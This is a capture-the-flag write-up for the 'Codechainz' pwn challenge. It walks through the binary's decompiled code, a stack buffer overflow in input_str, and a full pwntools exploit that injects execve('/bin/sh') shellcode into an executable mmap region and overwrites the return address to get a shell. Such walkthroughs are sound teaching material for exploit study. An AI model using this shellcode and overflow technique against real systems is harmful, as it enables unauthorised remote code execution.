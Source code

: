 ```yaml
---
title: Codechainz
author: Patrick
ShowToc: true
---
```


> This is Codechain's older brother, Codechainz

### What's going on?

This is what we get if we run the program:

```
Hey, this is an epic memory saver. #saved
Because of COVID-19 restrictions,
we can only do memory saving of programming languages.
We apologize for the inconvenience.

Preparing the memory space...
Memory space is ready for storing data.
DISCLAIMER: All your memories will be saved at 0x7fd43dc5f000.


Here are your options. Choose one:
1  Make a new memory
2  View a memory
3  Delete a memory
4  Exit
>
```
Apparently it leaks an address and allows us to make, view and delete a memory (which should be saved at the aforementioned address).

A quick checksec tells us that there's no canary but the stack isn't executable:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

Thanks to the binary not being stripped, the code (decompiled using Ghidra) is quite readable.
The main just sets an alarm (which isn't handled so the program crashes after 20 seconds) and calls two functions.
```c
int main(void) {
  alarm(20);
  welcome();
  loop_de_loop();
  return 0;
}
```

The first one, `welcome`, does nothing useful except calling `initMemory` (which allocates `0x1E=30` bytes with the `PROT_EXEC` bit set) and printing `memory_space`'s address.
```C
void init_memory(void) {
  int *piVar1;
  memory_space = mmap(0x0,0x1e,0x7,0x22,-1,0);
  if (memory_space == -1) {
    perror("mmap");
    fflush(stdout);
    piVar1 = __errno_location();
                    /* WARNING: Subroutine does not return */
    exit(*piVar1);
  }
  return;
}
```

The second one, `loop_the_loop`, is just a REPL interface. The interesting bit is `input_str`, called when making a new memory.

Here 44 bytes are allocated on the stack for our input but 100 are read (thus allowing us to _smash the stack_:tm:). Then the first 30 bytes are copied to `memory_space` (which we know is executable).
```c
void input_str(void) {
  char stack_buffer [44];
  int i;
  
  memset(stack_buffer,0,30);
  puts("Please input a programming language of your desire. I swear i will remember it.");
  printf("> ");
  fflush(stdout);
  fgets(stack_buffer,100,stdin);
  for (i = 0; i < 30; i = i + 1) {
    *(char *)(memory_space + i) = stack_buffer[i];
  }
  fflush(stdin);
  return;
}
```

### The solution

By looking at the disassembled `input_str` we see that `0x30` bytes are reserved on the stack and `stack_buffer` is placed at it's beginning:
```
0000000000001389 <input_str>:
    1389:	55                   	push   %rbp
    138a:	48 89 e5             	mov    %rsp,%rbp
    138d:	48 83 ec 30          	sub    $0x30,%rsp       <-
    1391:	48 8d 45 d0          	lea    -0x30(%rbp),%rax <-
    .....
```
So this is how the stack looks:
```
+--------+ 0
|        |
|        | --> variables allocated on the stack
|        |
+--------+ 0x30 = 48
|        | --> parent's RBP
+--------+ 56
|        | --> return address
+--------+ 64
```

We just have to place a shellcode in the first 30 bytes and then write `memory_space` address on top of the regular return address

```python
from pwn import *

io = connect('51.124.222.205', 13370)

'''
Linux/x86_64 execve("/bin/sh"); 30 bytes shellcode

http://shell-storm.org/shellcode/files/shellcode-603.php
'''
shellcode = b"\x48\x31\xd2"                             +  \
            b"\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68" +  \
            b"\x48\xc1\xeb\x08"                         +  \
            b"\x53"                                     +  \
            b"\x48\x89\xe7"                             +  \
            b"\x50"                                     +  \
            b"\x57"                                     +  \
            b"\x48\x89\xe6"                             +  \
            b"\xb0\x3b"                                 +  \
            b"\x0f\x05"

io.recvuntil(b'saved at ')
addr = int(io.recvuntil(b'.', drop=True).decode(), 16)
log.info(f'memory_space address: {hex(addr)}')

io.recvuntil(b'> ')
io.sendline(b'1')
io.recvuntil(b'> ')

payload = shellcode  # shellcode (30 bytes long)
payload += b'K'*26   # padding
payload += p64(addr) # memory_space address

io.sendline(payload)
io.interactive()
```

We now have a shell on the server so we can `cat flag.txt`
